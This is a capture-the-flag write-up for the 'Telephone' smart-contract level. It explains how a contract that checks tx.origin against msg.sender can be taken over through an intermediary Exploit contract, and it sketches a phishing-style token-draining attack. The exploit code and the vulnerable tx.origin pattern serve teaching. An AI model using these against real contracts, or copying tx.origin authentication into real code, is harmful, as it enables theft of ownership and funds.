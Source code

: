 # 04. Telephone

Claim ownership of the contract below to complete this level.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

In order to change the owner of the contract we can exploit the following function:

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

`tx.origin` and `msg.sender` difference is explained [here](https://ethereum.stackexchange.com/a/1892)

To successfully take the ownership of the contract we need to exploit another contract.

In Remix IDE:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
// -------------------------------- Original contract 
contract Telephone {
  address public owner;
  constructor() public {
    owner = msg.sender;
  }
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
// -------------------------------- Exploit           
contract Exploit {
    address originalAddress = 0x2BeE993f44d271A87C858367DFEaE036b20e5ADf;  // Change this with the challenge address
    Telephone public originalContract = Telephone(originalAddress);
    function takeOwnership(address me) public {
        originalContract.changeOwner(me);
    }
}
```

In this way, when we call `Exploit.takeOwnership`, `tx.origin` will be equals to `player`, while `msg.sender` will be equal to `Exploit` contract address

```javascript
// Before executing the contract exploit
await contract.owner() == player
// -> false
// After exploit execution
await contract.owner() == player
// -> true
```

## OZ Corner

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

